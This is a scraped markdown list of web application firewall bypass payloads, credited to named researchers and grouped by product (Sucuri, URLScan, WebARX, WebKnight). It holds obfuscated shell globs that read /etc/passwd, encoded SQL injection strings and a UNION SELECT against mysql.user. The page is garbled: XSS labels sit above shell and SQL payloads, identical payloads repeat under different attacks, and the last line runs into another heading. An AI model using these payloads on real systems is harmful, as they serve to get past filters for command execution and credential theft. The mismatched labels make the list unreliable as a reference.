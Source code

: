 ### **QuickDefense**

XSS Bypass by @WAFNinja

```
/???/??t+/???/??ss??
```

### **Sucuri**

Smuggling RCE Payloads by @theMiddle

```
/???/??t+/???/??ss??
```

Obfuscating RCE Payloads by @theMiddle

```
/?in/cat+/et?/passw?
```

XSS Bypass by @Luka

```
/?in/cat+/et?/passw?
```

XSS Bypass by @Brute Logic

```
0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
```

### **URLScan**

Directory Traversal by @ZeQ3uL (<= v3.1) (Only on ASP.NET)

```
0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
```

### **WebARX**

Cross Site Scripting by @0xInfection

```
1 AND (select DCount(last(username)&after=1&after=1) from users where username='ad1min')
```

### **WebKnight**

Cross Site Scripting by @WAFNinja

```
1 AND (select DCount(last(username)&after=1&after=1) from users where username='ad1min')
```

SQLi by @WAFNinja

```
1'UNION/*!0SELECT user,2,3,4,5,6,7,8,9/*!0from/*!0mysql.user/*-SQLi Bypass by @Travis Lee (v2.2)
```
